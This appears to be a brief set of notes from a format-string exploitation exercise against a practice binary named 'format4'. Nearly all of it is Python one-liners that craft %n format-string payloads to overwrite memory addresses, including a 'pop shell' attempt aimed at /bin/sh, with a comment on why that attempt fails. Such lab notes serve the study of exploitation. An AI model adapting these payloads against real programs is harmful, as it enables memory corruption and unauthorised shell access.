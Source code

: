 dump way: python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'%x '*4+'%134513800x '+'%n'" | ./format4 <br>
pop shell attempts:
- python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'BBBB'+'\x26\x97\x04\x08'+'\xc0\xf4\xff\xbf'+'\xc2\xf4\xff\xbf'+'%x '*4+'%26196x '+'%n'+'%20825x '+'%n'+'%109524x '+'%9\$n' +'%21564x' +'%10\$n'" => would fail cuz before calling exit it will move 1 to ESP, overwriting the pointer to /bin/sh

